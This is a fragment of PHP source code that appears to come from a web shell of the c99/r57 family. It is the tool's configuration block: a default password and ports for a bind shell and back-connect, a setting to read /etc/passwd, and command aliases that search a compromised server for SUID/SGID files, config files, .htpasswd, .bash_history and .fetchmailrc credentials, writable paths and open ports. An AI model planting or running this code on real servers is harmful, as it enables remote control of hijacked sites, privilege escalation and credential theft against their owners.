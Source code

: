 // Registered executable file-types.
//  array(
//   string "command{i}"=&gt;array("ext1","ext2","ext3",...),
//   ...
//  )
//   {command}: %f% = filename
$exeftypes  = array(
 getenv("PHPRC")." -q %f%" =&gt; array("php","php3","php4"),
 "perl %f%" =&gt; array("pl","cgi")
);

/* Highlighted files.
  array(
   i=&gt;array({regexp},{type},{opentag},{closetag},{break})
   ...
  )
  string {regexp} - regular exp.
  int {type}:
0 - files and folders (as default),
1 - files only, 2 - folders only
  string {opentag} - open html-tag, e.g. "&lt;b&gt;" (default)
  string {closetag} - close html-tag, e.g. "&lt;/b&gt;" (default)
  bool {break} - if TRUE and found match then break
*/
$regxp_highlight  = array(
  array(basename($_SERVER["PHP_SELF"]),1,"&lt;font color=\"yellow\"&gt;","&lt;/font&gt;"), // example
  array("config.php",1) // example
);

$safemode_diskettes = array("a"); // This variable for disabling diskett-errors.
 // array (i=&gt;{letter} ...); string {letter} - letter of a drive
//$safemode_diskettes = range("a","z");
$hexdump_lines = 8;// lines in hex preview file
$hexdump_rows = 24;// 16, 24 or 32 bytes in one line

$nixpwdperpage = 100; // Get first N lines from /etc/passwd

$bindport_pass = "h1j4ck";  // default password for binding
$bindport_port = "31373"; // default port for binding
$bc_port = "31373"; // default port for back-connect
$datapipe_localport = "8081"; // default port for datapipe

// Command-aliases
if (!$win)
{
 $cmdaliases = array(
  array("-----------------------------------------------------------", "ls -la"),
  array("find all suid files", "find / -type f -perm -04000 -ls"),
  array("find suid files in current dir", "find . -type f -perm -04000 -ls"),
  array("find all sgid files", "find / -type f -perm -02000 -ls"),
  array("find sgid files in current dir", "find . -type f -perm -02000 -ls"),
  array("find config.inc.php files", "find / -type f -name config.inc.php"),
  array("find config* files", "find / -type f -name \"config*\""),
  array("find config* files in current dir", "find . -type f -name \"config*\""),
  array("find all writable folders and files", "find / -perm -2 -ls"),
  array("find all writable folders and files in current dir", "find . -perm -2 -ls"),
  array("find all service.pwd files", "find / -type f -name service.pwd"),
  array("find service.pwd files in current dir", "find . -type f -name service.pwd"),
  array("find all .htpasswd files", "find / -type f -name .htpasswd"),
  array("find .htpasswd files in current dir", "find . -type f -name .htpasswd"),
  array("find all .bash_history files", "find / -type f -name .bash_history"),
  array("find .bash_history files in current dir", "find . -type f -name .bash_history"),
  array("find all .fetchmailrc files", "find / -type f -name .fetchmailrc"),
  array("find .fetchmailrc files in current dir", "find . -type f -name .fetchmailrc"),
  array("list file attributes on a Linux second extended file system", "lsattr -va"),
  array("show opened ports", "netstat -an | grep -i listen")